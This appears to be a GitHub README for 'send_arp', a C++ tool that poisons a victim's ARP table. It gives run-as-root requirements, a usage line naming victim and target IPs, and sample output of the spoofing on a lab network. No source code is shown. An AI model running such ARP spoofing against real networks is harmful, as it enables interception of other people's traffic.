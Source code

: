 # send_arp

* C++
* Infection target ARP table
* Compile with [C++11]
* It must run as root
* Environment : Ubuntu 16.04.02 LTS
* Usage

```sh
Usage: send_arp <interface> <sender(victim) ip> <target ip>
Ex)send_arp eth0 192.168.10.2 192.168.10.123
```

Example)
```sh
zanywhale@ubuntu:~/git/send_arp$ sudo ./send_arp ens33 192.168.181.128 192.168.181.2
[+] ARP_Request(BroadCast)... then get victim's MAC address!
[+] ARP_Request is done.
[+] Capture ARP_REPLY...
[+] Find sender_IP's MAC addr : 005056E34C8F
================== Status =================
Interface       : ens33
my_MAC Address  : 000C2901AEF4
my_IP Address   : 192.168.181.170
sender_ip       : 192.168.181.128
sender_mac      : 005056E34C8F
target_ip       : 192.168.181.2
===========================================
[+] ARP_REPLY... Change ARP Table!
[+] ARP_REPLY is done.
[+] Done! Check it now!
[+] ARP_REPLY... Change ARP Table!
[+] ARP_REPLY is done.
[+] Done! Check it now!
......
```
